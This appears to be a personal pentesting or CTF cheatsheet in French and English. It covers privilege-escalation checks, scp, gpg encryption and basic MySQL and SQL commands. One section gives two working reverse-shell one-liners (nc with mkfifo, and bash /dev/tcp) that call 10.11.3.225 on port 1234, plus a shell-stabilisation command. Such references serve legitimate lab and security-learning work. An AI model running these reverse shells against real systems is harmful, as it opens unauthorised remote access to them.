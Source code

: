 ### PATH Variable
### ssh private key
### mots de passes accidentellement tapés (history)
### Cronjobs
### Look for stuff in config files (important in CMS)
### Look for kernel exploit (exploit-suggester.pl)


### REVERSE SHELL NON INTERACTIVE SHELL
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.3.225 1234 >/tmp/f
bash -i >& /dev/tcp/10.11.3.225/1234 0>&1
```


### STABILISER UN REVERSE SHELL
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; 
export TERM=xterm ; export SHELL=bash
```

## COMMAND LINE CHEATSHEET
##### Upload to SSH
```bash
scp [filename] [username]@[IP of remote machine ]:[directory to upload to on remote machine]
```
##### Download from SSH
```bash
scp remoteuser@remoteIP:path/to/remote/file localdir/
```
##### AES Encryt
```bash
gpg --cipher-algo [encryption type] [encryption method] [file to encrypt]
gpg --cipher-algo AES-256 --symmetric secret.txt
```
##### Connect to MYSQL remote server
```bash
mysql -u [username] -p -h [host ip]
```
View a .sql file (depuis mysql) /!\ il fait être dans le dosser du fichier
```bash
source file.sql
```


## SQL CHEATSHEET :
```sql
SHOW DATABASES;
USE db_name;
SHOW TABLES;
DESCRIBE table_name;
```
